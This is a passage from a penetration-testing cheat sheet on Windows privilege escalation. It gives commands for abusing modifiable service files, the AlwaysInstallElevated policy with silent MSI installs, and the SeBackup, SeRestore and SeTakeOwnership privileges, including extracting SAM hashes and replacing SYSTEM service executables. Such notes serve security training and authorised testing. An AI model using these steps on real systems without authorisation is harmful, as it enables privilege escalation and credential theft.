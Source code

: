 ### 3.4. Modifiable Service File
Sometimes it might be possible to modify binary which is run as a service.

```powershell
# PowerUp module
Get-ModifiableServiceFile -Verbose          # List modifiable service files
```

## 4. AlwaysInstallElevated
`.msi` files are used to install applications on the system. They usually run with the privileges of the current user but sometimes it might be configured to run installation files with higher privileges from any user account. Malicious `.msi` files can be generated using `msfvenom` tool.

```powershell
# Check if AlwaysInstallElevated is set
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

# Execute an .msi file
msiexec /quiet /qn /i <path>
```

## 5. Users
Every user has some privileges and some of them might be used to perform privilege escalation:

- [List of all possible privileges](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
- [List of potentially dangerous privileges](https://github.com/gtworek/Priv2Admin)

Check current privileges: `whoami /priv`

### 5.1. SeBackup and SeRestore
The `SeBackup` and `SeRestore` allow a user to read and write to **any file in the system**, ignoring any DACL. They are used to perform full backup of the system without requiring full admin privileges. Using these privileges an attacker is able to export SAM database and extract users hashes offline. More in: `post-exploitation`.

### 5.2. SeTakeOwnership
The `SeTakeOwnership` privilege allows a user to take ownership of any object on the system. An attacker can search for a service running as SYSTEM and take ownership of the service's executable.

```powershell
# The ownership of the file
takeown /f <file>

# Grant full privileges to the file
icacls <file> /grant <username>:F

# Now you can replace this file with an malicious executable
```

### 5.3. SeImpersonate and SeAssignPrimaryToken
These privileges allow a process to act on behalf of another user. It usually consists of being able to spawn a process under the security context of another user.
